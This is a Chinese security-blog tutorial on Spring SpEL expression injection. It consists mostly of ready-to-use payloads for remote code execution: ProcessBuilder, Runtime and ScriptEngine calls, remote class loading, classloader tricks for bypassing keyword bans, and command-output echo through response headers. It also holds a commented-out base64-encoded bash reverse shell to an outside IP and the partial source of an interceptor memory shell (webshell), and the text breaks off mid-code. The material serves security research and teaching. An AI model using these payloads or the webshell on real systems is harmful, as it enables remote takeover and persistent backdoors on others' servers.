# 奇安信攻防社区-[Java安全]Spring SPEL注入总结&&回显技术

### \[Java安全\]Spring SPEL注入总结&&回显技术

对Java安全中的SPEL表达式注入相关总结以及技巧

SPEL表达式注入和OGNL表达式注入有异曲同工之妙~  
Y4偶像的一篇文章  
[\[Java代码审计\]javacon WriteUp\_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/118964923)

# 一、SPEL表达式基础

参考：  
[SpEL表达式注入漏洞总结 \[ Mi1k7ea \]](https://www.mi1k7ea.com/2020/01/10/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E8%BF%90%E7%AE%97)

## 定界符#{}与${}

这两个东西一点都不相同，`${}`只是单纯的一个占位符，会引起一些注入，比如SQL注入之类的。而`#{}`这就是SPEL特有的定界符。中间的内容会被解析。

## 类型表达式T()

学SPEL的过程中，总是会看见形如`T()`这样式儿的payload，很多人不清楚是什么意思。

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(java.lang.String)";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

  
T中的内容会被解析为一个类。比如图中的String，还可以解析为`java.lang.Runtime`，因此也就有了命令执行。

## SPEL表达式

一些比较常见的表达式

| 运算符类型 | 运算符 |
| --- | --- |
| 算数运算 | +, -, \*, /, %, ^ |
| 关系运算 | <, >, ==, <=, >=, lt, gt, eq, le, ge |
| 逻辑运算 | and, or, not, ! |
| 条件运算 | ?:(ternary), ?:(Elvis) |
| 正则表达式 | matches |

| 运算符 | 符号  | 文本类型 |
| --- | --- | --- |
| 等于  | \== | eq  |
| 小于  | <   | lt  |
| 小于等于 | <=  | le  |
| 大于  | \>  | gt  |
| 大于等于 | \>= | ge  |

这些用的不多，记住就好了。

## 变量定义和引用

在SpEL表达式中，变量定义通过EvaluationContext类的setVariable(variableName, value)函数来实现；在表达式中使用”#variableName”来引用；除了引用自定义变量，SpEL还允许引用根对象及当前上下文对象：

-   `#this`：使用当前正在计算的上下文；
-   `#root`：引用容器的root对象；
-   `@something`：引用Bean

# 二、RCE飞雷神一段

纯度宝典第一页  
飞雷神一段讲究的是直接RCE的艺术。那么也就对应常见的三种方法。

## ProcessBuilder

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

写这一段代码喝了我2瓶八颗核桃，拉满了真的拉满了。我们Processbuilder真的是太有操作了  


## Runtime

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(java.lang.Runtime).getRuntime().exec('calc')";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

什么？还有高手！拉满了真的拉满了，Runtime居然只需要直接用T表达式就可以命令执行？！拉满了！  


## ScriptEngine

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(javax.script.ScriptEngineManager).getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

  
什么？居然报错了，不行大脑已经短路了，容不得我思考。哦！原来是static，因为getEngineByName不是static方法，阴间狡诈，那我们怎么办！

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

  
原来直接new 就可以了，我们JavaScriptengine玩家真的是太有操作了。  
不过在这里还是得多一嘴的，其实JavaScriptengine已经可以做很多事情了，比如注入内存马之类的。Js代码是很灵活的。所以需要好好利用。

# 三、RCE飞雷神二段

纯度秘典第二页，用远程类加载进行RCE。

## UrlClassloader

这个方法就是通过远程类加载。代码如下

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

然后那个getconstructors其实也没必要那么写

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").newInstance()";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class evil extends AbstractTranslet {
    static {
        try {
            //Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuMTE2LjExOS4yNTMvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}");
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }

    }

    public static void main(String[] args) {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后起个http服务，最后运行就可以加载恶意类了。  


## AppClassloader

这种其实大差不差。获取ClassLoader去加载本地的类。

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        //String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()";
        String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```



## 通过各种方法获取AppClassloader

我的纯度在你之上，假如ban掉了一些关键字，我们如何获取classloader成为了问题  
有如下几种方法。

```php
T(org.springframework.expression.Expression).getClass().getClassLoader()
#thymeleaf 情况下

T(org.thymeleaf.context.AbstractEngineContext).getClass().getClassLoader()
#web服务下通过内置对象

{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"touch/tmp/foobar\")}

username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('xterm')")]=asdf
```

只要能获取到都是可以的。

## Bcel字节码

这东西其实都不陌生。

```php
T(com.sun.org.apache.bcel.internal.util.JavaWrapper)._main({"BCEL"})}
```

大概可以是如上形式。  
由于SPEL啥都可以做，所以你不用这个类或者用bcel的classloader也可以

# 四、霸体螺旋丸回显

那么在Web服务中，困扰我们最多的就是回显问题了，命令执行成功了，不出网，怎么把结果带出来呢？？！不要着急，翻开纯度宝典第四页。  
我的测试代码如下

```java
package com.example.spel.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.SpelParserConfiguration;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload){
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue();
    }
}
```

## BufferedReader

其实这并不是纯粹的回显，因为你需要return这个返回结果，而真实情况一般是不会return这个结果的。  
`payload=new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()`  
  
这只是返回值为输出结果的String而已。

## Scanner

和Buffer一样，都只能算得上是半回显  
`new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asdasdasdasd").next()`  
这里的`Delimiter`是分隔符的意思，我们执行了dir指令，假如想让回显全部显示在一行。那么我们给一点乱七八糟的东西即可  


## ResponseHeader

这种方法才称得上是通用回显  
这种方法需要有一个方法可以addHeader，可是springboot并不自带这个方法。因此获取到Response有些许困难，需要注册一个response进上下文

```java
@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload,HttpServletResponse response){
        StandardEvaluationContext context=new StandardEvaluationContext();
        context.setVariable("response",response);
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue(context);
    }
}
```

```php
POST /spel HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 180

payload=#response.addHeader('x-cmd',new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine())
```

  
这样就可以把命令执行的结果外带出来了。这种方法是比较轻便的。还是围绕着如何获取response这个点。stucts2有util可以直接添加response，所以可以直接外带。

# 五、拖入小树林注入内存马

纯度宝典第五页，什么response问题我都不在意，我只需要加载我的内存马就足矣！  
这里有一个payload模板  
`#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance()}`  
自己简化后：  
`T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()`，接下来就逐步解析一下这个payload

## defineClass

首先我们需要确认我们的目的，我们目的就是加载一个类，并且将其实例化。这里选择了springboot自带的工具类`ReflectUtils`，因为他识别base64字节，然后加载它。很方便。

## ClassLoader

加载一个类需要指定classloader，我们肯定选定当前线程上下文的classLoader  
`T(java.lang.Thread).currentThread().getContextClassLoader()`  
第一个payload用到了Mlet这个类  
  
他实际上是URLClassLoader的实现类，所以我个人来说是不知道为啥选Mlet这个。我猜测是兼容问题，因为URLclassloader可以加载任意类吧。不管是远程还是本地的。这个地方注意一下。

## 内存马

内存马选用的话就springboot内存马就行了。我这里选了一个interceptor内存马

```java
import org.springframework.web.servlet.HandlerInterceptor;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.List;

public class InceptorMemShell extends AbstractTranslet implements HandlerInterceptor {

    static {
        System.out.println("staart");
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        InceptorMemShell evilInterceptor = new InceptorMemShell();
        adaptInterceptors.add(evilInterceptor);
        System.out.println("ok");
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                response.setCharacterEncoding("gbk");
                java.io.PrintWriter printWriter = response.getWriter();
                ProcessBuilder builder;
                String o = "";
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
